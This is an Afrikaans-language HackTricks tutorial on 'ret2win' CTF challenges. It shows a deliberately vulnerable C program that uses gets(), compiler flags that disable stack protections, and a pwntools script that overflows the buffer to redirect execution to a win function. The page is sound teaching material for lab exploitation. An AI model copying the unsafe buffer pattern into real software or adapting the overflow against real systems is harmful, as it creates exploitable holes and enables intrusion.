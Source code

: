 # Ret2win

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

**Ret2win**-uitdagings is 'n gewilde kategorie in **Capture The Flag (CTF)**-kompetisies, veral in take wat **binêre uitbuiting** behels. Die doel is om 'n kwesbaarheid in 'n gegewe binêre lêer uit te buit om 'n spesifieke, onaangeroepe funksie binne die binêre lêer uit te voer, dikwels iets soos `win`, `flag`, ens. Hierdie funksie druk gewoonlik 'n vlag of 'n suksesboodskap uit wanneer dit uitgevoer word. Die uitdaging behels tipies die oorskrywing van die **terugkeeradres** op die stapel om die uitvoervloei na die gewenste funksie te stuur. Hier is 'n meer gedetailleerde verduideliking met voorbeelde:

### C-voorbeeld

Beskou 'n eenvoudige C-program met 'n kwesbaarheid en 'n `win`-funksie wat ons beoog om te roep:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Om hierdie program te kompileer sonder stapelbeskerming en met ASLR gedeaktiveer, kan jy die volgende bevel gebruik:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: Kompileer die program as 'n 32-bis binêre (dit is opsioneel maar algemeen in CTF-uitdagings).
* `-fno-stack-protector`: Deaktiveer beskerming teen stoor oorvloei.
* `-z execstack`: Staan die uitvoering van kode op die stoor toe.
* `-no-pie`: Deaktiveer Posisioneel Onafhanklike Uitvoerbare om te verseker dat die adres van die `win`-funksie nie verander nie.
* `-o vulnerable`: Noem die uitvoer lêer `vulnerable`.

### Python Exploit met behulp van Pwntools

Vir die uitbuiting, sal ons **pwntools** gebruik, 'n kragtige CTF-raamwerk vir die skryf van uitbuitings. Die uitbuitingskrip sal 'n lading skep om die buffer te oorvloei en die terugkeeradres met die adres van die `win`-funksie te oorskryf.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Om die adres van die `win` funksie te vind, kan jy **gdb**, **objdump**, of enige ander gereedskap gebruik wat jou in staat stel om binêre lêers te inspekteer. Byvoorbeeld, met `objdump`, kan jy gebruik:
```sh
objdump -d vulnerable | grep win
```
Hierdie bevel sal jou die samestelling van die `win`-funksie wys, insluitend sy beginadres.

Die Python-skrip stuur 'n sorgvuldig saamgestelde boodskap wat, wanneer verwerk deur die `vulnerable_function`, die buffer oorloop en die terugkeeradres op die stok met die adres van `win` oorskryf. Wanneer `vulnerable_function` terugkeer, spring dit na `win` in plaas daarvan om na `main` terug te keer of af te sluit, en die boodskap word gedruk.

## Beskermings

* [**PIE**](../common-binary-protections-and-bypasses/pie/) **moet gedeaktiveer word** sodat die adres betroubaar oor uitvoerings heen is, anders sal die adres waar die funksie gestoor word nie altyd dieselfde wees nie en sal jy 'n lek nodig hê om uit te vind waar die `win`-funksie gelaai word. In sommige gevalle, wanneer die funksie wat die oorloop veroorsaak `read` of soortgelyk is, kan jy 'n **Gedeeltelike Oorskrywing** van 1 of 2 byte doen om die terugkeeradres te verander na die `win`-funksie. As gevolg van hoe ASLR werk, is die laaste drie heks-nibbles nie willekeurig nie, so daar is 'n **1/16 kans** (1 nibble) om die korrekte terugkeeradres te kry.
* [**Stokkanaries**](../common-binary-protections-and-bypasses/stack-canaries/) moet ook gedeaktiveer word, anders sal die gekompromitteerde EIP-terugkeeradres nooit gevolg word nie.

## Ander voorbeelde & Verwysings

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32-bis, geen ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* 64 bits met ASLR, met 'n lek van die bin-adres
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64 bits, geen ASLR
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32 bits, geen ASLR, dubbele klein oorloop, eerste om die stok te oorloop en die grootte van die tweede oorloop te vergroot
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, geen kanarie, nx, geen pie, formaatstring om die adres `fflush` met die `win`-funksie (ret2win) te oorskryf
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32 bit, nx, niks anders, gedeeltelike oorskrywing van EIP (1Byte) om die `win`-funksie te roep
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32 bit, nx, niks anders, gedeeltelike oorskrywing van EIP (1Byte) om die `win`-funksie te roep
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* Die program valideer slegs die laaste byte van 'n nommer om vir die grootte van die inset te kyk, daarom is dit moontlik om enige grootte by te voeg solank die laaste byte binne die toegelate reeks is. Dan skep die inset 'n bufferoorloop wat uitgebuit word met 'n ret2win.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64 bit, relro, geen kanarie, nx, pie. Gedeeltelike oorskrywing om die `win`-funksie te roep (ret2win)
